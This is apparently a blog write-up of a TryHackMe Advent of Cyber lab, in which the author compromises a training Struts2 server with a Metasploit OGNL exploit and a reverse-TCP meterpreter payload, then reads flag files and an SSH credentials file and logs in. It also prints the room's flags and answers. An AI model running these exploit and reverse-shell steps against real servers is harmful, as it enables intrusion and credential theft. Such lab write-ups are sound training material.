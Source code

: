 ```yaml
---
title: "Advent of Cyber Day 10 Metasploit-a-ho-ho-ho"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "Advent of Cyber Day 10 Metasploit-a-ho-ho-ho"
secret: true
---
```


[TryHackMe | Advent of Cyber](https://tryhackme.com/room/25daysofchristmas)

Hi Lindsey here. I've been a great Elf all year, but there was one incident and now I think I'm on Santa's naughty list.

What? You didn't think us elves got presents too? Well we do and we get first pick of the pressies!

Can you help me hack into Santa's system that keeps track of the naughty and nice people to see if I am on it?

![https://i.imgur.com/ODZrb5R.png](https://i.imgur.com/ODZrb5R.png)

Check out the [blog post](https://blog.tryhackme.com/metasploit/) shown above to help you on this task.

## Setup

On the title of this box it says "Struts", so I search if there is some exploits in the metasploit framework and spoiler alert there is one.

![https://i.imgur.com/6PI0zyZ.png](https://i.imgur.com/6PI0zyZ.png)

Now that we have the exploit let's use it !

```bash
use exploit/multi/http/struts2_content_type_ognl
```

Now put the correct HOST and port for the exploit

```bash
set RHOSTS 10.10.21.228 # Host of the target box
set RPORT 80 # There is no SSL (https)
set TARGETURI /showcase.action # The path to a struts application action (default path)
```

Now the fun stuff, the reverse tcp meterpreter :)

```bash
use linux/x86/meterpreter/reverse_tcp
set LHOST IP # Ip of your kali machine (openvpn ip)
set LPORT 4444 # You can put anything there.
```

After all the configuration you need to go back to the previous exploit (struts2)

```bash
use multi/http/struts2_content_type_ognl
set PAYLOAD linux/x86/meterpreter/reverse_tcp # Link the reverse TCP to the struts exploit)
exploit
```

### #1 Compromise the web server using Metasploit. What is flag1?

On the question we have the name of the flag so let's find it !

```bash
meterpreter > shell
Process 63 created.
Channel 6 created.
find / | grep -i "flag1"
/usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
^C
Terminate channel 6? [y/N]  y
meterpreter > cat /usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
THM{3ad96bb13ec963a5ca4cb99302b37e12}
```

![https://i.imgur.com/CC7mRJq.png](https://i.imgur.com/CC7mRJq.png)

```bash
THM{3ad96bb13ec963a5ca4cb99302b37e12} # flag
```

### #2 Now you've compromised the web server, get onto the main system. What is Santa's SSH password?

On the question we have the name 'santa' let's see if there is some users on the /home directory

```bash
meterpreter > "cd /home"
meterpreter > "ls"
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2019-12-08 16:12:45 -0500  santa

meterpreter > "cd santa"
meterpreter > ls
Listing: /home/santa
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  30    fil   2019-12-08 16:12:44 -0500  "ssh-creds.txt"

meterpreter > "cat ssh-creds.txt"
santa:rudolphrednosedreindeer
```

```bash
rudolphrednosedreindeer # flag
```

### #3 Who is on line 148 of the naughty list?

Now that we have the ssh creds on the santa's accont let's use it !

```bash
ssh santa@10.10.21.228
password: rudolphrednosedreindeer
```

[How to "grep" out specific line ranges of a file](https://stackoverflow.com/a/2914269)

```bash
[santa@ip-10-10-21-228 ~]$ sed '148!d' naughty_list.txt
Melisa Vanhoose
```

### #4 Who is on line 52 of the nice list?

```bash
[santa@ip-10-10-21-228 ~]$ sed '52!d' nice_list.txt
Lindsey Gaffney
```
